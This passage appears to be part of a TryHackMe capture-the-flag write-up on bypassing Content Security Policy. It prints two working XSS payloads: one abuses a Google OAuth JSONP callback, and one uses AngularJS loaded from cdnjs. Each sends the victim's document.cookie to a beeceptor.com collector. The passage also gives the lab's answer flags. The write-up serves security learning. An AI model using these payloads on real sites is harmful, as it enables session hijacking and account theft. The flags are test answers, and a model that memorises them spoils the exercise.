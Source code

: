 <br>
<p><em>payload</em></p>

```bash
<script src="https://accounts.google.com/o/oauth2/revoke?callback=eval(document.location='https://researcher.free.beeceptor.com/'.concat(document.cookie))"></script>
```

<br>

<p><em>researcher.beeceptor.com</em></p>
<br>

<img width="391" height="288" alt="image" src="https://github.com/user-attachments/assets/0c0efa26-46ad-4717-83c9-21284e5117d6" />

<br>

```bash
GET `/flag=THM%7BN0_JSONP_D0mains_Plz%7D`
```
<br>
<br>
<br>
<p>7.6. Flag for attack-6<br>
<code>THM{Trust_N0_CDN}</code></p>

<p><em>CSP Evaluator</em></p>
<br>

```bash
Content-Security-Policy: default-src 'none'; img-src *; style-src 'self'; script-src 'unsafe-eval' cdnjs.cloudflare.com
```

<br>
<br>

<img width="1105" height="401" alt="image" src="https://github.com/user-attachments/assets/6cc66344-7318-45c3-8f1b-14828160ee0b" />

<br>
<br>
<p><em>payload</em></p>

```bash
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.3/prototype.min.js" integrity="sha512-C4LuwXQtQOF1iTRy3zwClYLsLgFLlG8nCV5dCxDjPcWsyFelQXzi3efHRjptsOzbHwwnXC3ZU+sWUh1gmxaTBA==" crossorigin="anonymous"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.min.js"></script>
<div ng-app ng-csp>
{{$on.curry.call().document.location='https://researcher.free.beeceptor.com/' + $on.curry.call().document.cookie}}
</div>
```

<br>

<p><em>researcher.beeceptor.com</em></p>
<br>
